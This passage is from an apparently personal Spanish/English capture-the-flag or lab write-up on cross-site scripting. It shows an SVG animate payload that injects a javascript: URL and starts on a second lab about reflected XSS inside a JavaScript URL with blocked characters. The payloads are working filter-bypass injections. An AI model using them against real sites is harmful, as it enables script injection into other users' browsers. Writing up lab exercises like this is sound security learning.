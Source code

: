 ![](/img2/Pasted%20image%2020250727234210.png)

- Injection

```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=150>Click</text></a></svg>
```

## XSS en javascript: con caracteres limitados || Reflected XSS in a JavaScript URL with some characters blocked

![](/img2/Pasted%20image%2020250728162616.png)

```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=INPUT}).finally(_ => window.location = '/')">Back to Blog</a>
```

> Nuestro input se encuentra dentro de un script con la función 'fetch'.

![](/img2/Pasted%20image%2020250728163006.png)

![](/img2/Pasted%20image%2020250728163056.png)

> Podemos insertar contenido usando el símbolo &, de esta forma evitamos tener que introducir un número entero.
